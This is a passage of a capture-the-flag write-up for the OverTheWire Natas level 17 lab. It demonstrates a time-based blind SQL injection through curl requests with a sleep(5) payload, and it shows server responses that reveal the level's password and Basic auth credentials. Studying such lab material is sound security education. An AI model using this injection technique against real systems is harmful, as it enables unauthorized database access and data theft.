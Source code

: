 Attempting an injection using a username like:

```
natas18" AND sleep(5) #
```

.. should result in a SQL query like:

```
SELECT * from users where username="natas18" AND sleep(5) # "
```

```
$ time curl --silent "http://natas17.natas.labs.overthewire.org/?username=natas18%22%20AND%20sleep%285%29%20%23%20&debug" -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
Executing query: SELECT * from users where username="natas18" AND sleep(5) # "<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

real    0m6.975s
user    0m0.005s
sys    0m0.007s
```

The `debug` flag confirms the SQL query which results from our injection and
the `time` command validates that our query took >5 seconds indicating that
there likely is a user called `natas18`. Let's see what happens if we had a
likely non-existent user `foobar`..

```
$ time curl --silent "http://natas17.natas.labs.overthewire.org/?username=foobar%22%20AND%20sleep%285%29%20%23%20&debug" -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
Executing query: SELECT * from users where username="foobar" AND sleep(5) # "<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```